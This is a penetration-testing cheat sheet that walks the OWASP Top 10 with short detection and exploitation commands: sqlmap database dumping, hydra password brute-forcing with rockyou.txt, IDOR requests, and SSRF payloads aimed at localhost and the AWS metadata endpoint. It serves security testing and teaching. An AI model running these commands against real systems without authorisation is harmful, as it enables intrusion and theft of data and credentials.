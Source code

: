 
# VAPT Exploitation Cheat Sheet

This repository serves as a one-stop guide for identifying and exploiting vulnerabilities across the OWASP Top 10 categories.

---

## 🔐 Broken Access Control

### 🔍 Detection

```bash
# Try accessing an unauthorized endpoint
curl -b "auth_token=..." http://target/admin
```

### 🎯 Exploitation

```bash
# IDOR exploitation example
curl http://target/api/user/2
```

---

## 🔐 Cryptographic Failures

### 🔍 Detection

```bash
# Check for missing HTTPS, weak ciphers
sslscan target.com
```

### 🎯 Exploitation

```bash
# Downgrade attack (if possible)
sslyze --regular target.com
```

---

## 🧪 Injection (SQLi, Command Injection, etc.)

### 🔍 Detection

```bash
sqlmap -u "http://target.com/product.php?id=1" --batch --level=5 --risk=3
```

### 🎯 Exploitation

```bash
# Exploit with sqlmap to dump DB
sqlmap -u "http://target.com/product.php?id=1" --dump
```

---

## 📐 Insecure Design

- Manual Testing Needed:
    
    - Unprotected workflows
        
    - Weak logic in password reset
        
    - Lack of rate limiting
        

---

## ⚙️ Security Misconfiguration

### 🔍 Detection

```bash
nuclei -u http://target.com
nikto -h http://target.com
```

### 🎯 Exploitation

```bash
# Exploit default creds if found
hydra -l admin -P rockyou.txt http://target.com/login
```

---

## 🧱 Vulnerable & Outdated Components

### 🔍 Detection

```bash
whatweb http://target.com
nmap --script vulners -sV target.com
```

---

## 🚲 Identification & Authentication Failures

### 🔍 Detection

```bash
# Check for missing MFA, brute-forceable logins
hydra -l admin -P rockyou.txt http://target.com/login
```

---

## 🔒 Software & Data Integrity Failures

- Manual and Dependency Tool Testing:
    
    - Check source maps, misconfigured CI/CD
        
    - Tools: `npm audit`, `trivy`, `retire.js`
        

---

## 📜 Security Logging & Monitoring Failures

- Detection:
    
    - No logs for auth events
        
    - Manual review required
        

---

## 🌐 SSRF (Server-Side Request Forgery)

### 🔍 Detection

```bash
# Common SSRF payload
curl -X POST http://target.com/fetch?url=http://127.0.0.1:80
```

### 🎯 Exploitation

```bash
# Try accessing AWS metadata
curl http://target.com/fetch?url=http://169.254.169.254/latest/meta-data/
```

---
